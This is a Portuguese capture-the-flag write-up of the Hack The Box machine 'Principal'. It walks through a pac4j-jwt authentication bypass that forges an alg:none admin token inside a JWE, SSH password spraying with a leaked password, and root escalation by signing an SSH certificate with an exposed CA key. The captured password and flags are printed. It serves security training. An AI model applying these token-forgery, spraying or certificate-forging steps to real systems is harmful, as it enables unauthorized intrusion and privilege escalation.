# Hack The Box — Principal


---

# Informações da Máquina

| Nome      | Dificuldade | Plataforma      | OS    |
|-----------|------------|----------------|-------|
| Principal | Medium     | Hack The Box   | Linux |

---

# Superfície de ataque

1. Enumeração inicial com Nmap  
2. Análise da aplicação web (pac4j-jwt)  
3. Exploração de auth bypass (CVE-2026-29000)  
4. Forjamento de token admin  
5. Extração de credenciais do dashboard  
6. Acesso via SSH (password spray)  
7. Abuso de SSH CA mal configurado  
8. Escalação para root via certificado forjado  

---

# Reconhecimento

```
nmap -sC -sV -T4 10.129.244.220
```



O scan revelou dois serviços principais:

- Porta 22 → SSH (OpenSSH 9.6p1)
- Porta 8080 → Aplicação web (Jetty)

Além disso, foi possível identificar que a aplicação utiliza **pac4j-jwt 6.0.3**, o que será essencial para a exploração.

---

# Enumeração Web

A aplicação web está disponível em:

```
http://10.129.244.220:8080
```



Ao acessar, encontramos um painel de login.

Durante testes iniciais:

- Credenciais padrão não funcionam
- Requisição vai para `/api/auth/login`

---

## Análise do JavaScript

Ao analisar `/static/js/app.js`, encontramos informações críticas:



- Uso de JWT com:
  - **JWE (criptografia)**
  - **JWS (assinatura)**
- Endpoints:

```
/api/auth/login
/api/auth/jwks
/api/dashboard
/api/users
/api/settings
```

Especial atenção ao endpoint:

```
/api/auth/jwks
```

---

# Coleta da chave pública

```
curl http://10.129.244.220:8080/api/auth/jwks | jq
```



Esse endpoint fornece a **chave pública RSA** usada para criptografar o JWT.

---

# Vulnerabilidade

## CVE-2026-29000 — pac4j-jwt Auth Bypass



De acordo com o PDF:

- O sistema descriptografa o JWE corretamente
- Mas falha ao validar a assinatura do JWT interno

Fluxo vulnerável:

1. Servidor descriptografa o JWE
2. Extrai o payload interno
3. Se for `alg:none`, não existe assinatura
4. Verificação é ignorada completamente

Resultado:

→ Podemos forjar um token com qualquer role (ex: admin)

---

# Exploração

```
python3 cve.py http://10.129.244.220:8080
```



O script:

1. Baixa a chave pública (JWKS)
2. Cria um JWT com `alg:none`
3. Define:

```
sub = admin
role = ROLE_ADMIN
```

4. Envolve em um JWE válido
5. Envia para o servidor

Resultado:

```
Authenticated as: admin (ROLE_ADMIN)
```

---

# Acesso ao Dashboard

Inserimos o token no navegador:

```
Session Storage → auth_token
```

Após atualizar a página, acesso completo ao painel admin.

---

# Enumeração interna

## Usuários



Lista de usuários obtida via `/api/users`.

---

## Credencial encontrada



Na aba **Settings → Security**, encontramos:

```
D3pl0y_$$H_Now42!
```

---

# Acesso via SSH

Realizamos password spray:

```
nxc ssh 10.129.244.220 -u users.txt -p 'D3pl0y_$$H_Now42!'
```



Resultado:

```
svc-deploy → acesso válido
```

Login:

```
ssh svc-deploy@10.129.244.220
```

---

# User Flag

```
cat user.txt
```



```
819cec726195deff54a85d833fc52347
```

---

# Escalação de Privilégio

## Enumeração

O usuário pertence ao grupo:

```
deployers
```

Diretório crítico:

```
/opt/principal/ssh
```



Conteúdo:

- ca (chave privada da CA)
- ca.pub
- README

---

## Configuração SSH

```
TrustedUserCAKeys /opt/principal/ssh/ca.pub
```

Problema identificado:

- Não existe `AuthorizedPrincipalsFile`

Impacto:

→ Qualquer certificado assinado pela CA é aceito  
→ Sem validação de identidade (username)

---

# Exploração (Privesc)

Gerar chave:

```
ssh-keygen -t ed25519 -f /tmp/pwn -N ""
```

Assinar com a CA:

```
ssh-keygen -s /opt/principal/ssh/ca -I pwn-root -n root -V +1h /tmp/pwn.pub
```



Isso cria um certificado válido para:

```
principal = root
```

---

## Login como root

```
ssh -i /tmp/pwn root@localhost
```

Acesso root obtido.

---

# Root Flag

```
cat /root/root.txt
```



```
a57f6df32b30fd0f3deb90328aa44a91
```

---

# Vulnerabilidades Identificadas

### CVE-2026-29000
Bypass de autenticação via JWT mal validado  

### Credenciais expostas
Senha acessível no painel  

### SSH CA Misconfiguration
Permite forjar identidade e escalar para root  

---

# Ferramentas Utilizadas

- Nmap  
- curl  
- Python3  
- jwcrypto  
- NetExec  
- SSH  

---

# Principais Aprendizados

- Validação de assinatura é crítica em JWT  
- Criptografia sem validação de identidade é inútil  
- CA mal configurada compromete todo o sistema  
- Cadeias de confiança são alvos comuns em pentest  

---

# Autor

https://github.com/ninjaa-exe
